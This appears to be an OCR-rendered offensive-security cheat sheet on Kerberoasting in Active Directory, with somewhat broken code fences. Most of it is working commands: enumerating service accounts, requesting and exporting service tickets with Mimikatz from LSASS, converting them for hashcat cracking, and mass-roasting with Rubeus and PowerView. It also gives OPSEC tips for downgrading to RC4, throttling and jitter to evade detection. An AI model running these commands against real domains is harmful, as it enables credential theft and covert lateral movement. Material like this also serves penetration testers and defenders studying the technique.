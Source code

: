 ```
# Built-in
setspn.exe -Q */*   # Focus on entries where the backing object is a user, not a computer ($)

# PowerView
Get-NetUser -SPN | Select-Object serviceprincipalname

# Rubeus stats (AES/RC4 coverage, pwd-last-set years, etc.)
.\Rubeus.exe kerberoast /stats
```
```
- Technique 1: Ask for TGS and dump from memory

```powershell
# Acquire a single service ticket in memory for a known SPN
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<SPN>"  # e.g. MSSQLSvc/mgmt.domain.local

# Get all cached Kerberos tickets
klist

# Export tickets from LSASS (requires admin)
Invoke-Mimikatz -Command '"kerberos::list /export"'

# Convert to cracking formats
python2.7 kirbi2john.py .\some_service.kirbi > tgs.john
# Optional: convert john -> hashcat etype23 if needed
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$*\1*$\2/' tgs.john > tgs.hashcat
```
```
- Technique 2: Automatic tools

```powershell
# PowerView — single SPN to hashcat format
Request-SPNTicket -SPN "<SPN>" -Format Hashcat | % { $_.Hash } | Out-File -Encoding ASCII hashes.kerberoast
# PowerView — all user SPNs -> CSV
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\kerberoast.csv -NoTypeInformation

# Rubeus — default kerberoast (be careful, can be noisy)
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
# Rubeus — target a single account
.\Rubeus.exe kerberoast /user:svc_mssql /outfile:hashes.kerberoast
# Rubeus — target admins only
.\Rubeus.exe kerberoast /ldapfilter:'(admincount=1)' /nowrap
```
```
> [!WARNING]
> A TGS request generates Windows Security Event 4769 (A Kerberos service ticket was requested).

### OPSEC and AES-only environments

- Request RC4 on purpose for accounts without AES:
  - Rubeus: `/rc4opsec` uses tgtdeleg to enumerate accounts without AES and requests RC4 service tickets.
  - Rubeus: `/tgtdeleg` with kerberoast also triggers RC4 requests where possible.
- Roast AES-only accounts instead of failing silently:
  - Rubeus: `/aes` enumerates accounts with AES enabled and requests AES service tickets (etype 17/18).
  - If you already hold a TGT (PTT or from a .kirbi), you can use `/ticket:<blob|path>` with `/spn:<SPN>` or `/spns:<file>` and skip LDAP.
- Targeting, throttling and less noise:
  - Use `/user:<sam>`, `/spn:<spn>`, `/resultlimit:<N>`, `/delay:<ms>` and `/jitter:<1-100>`.
```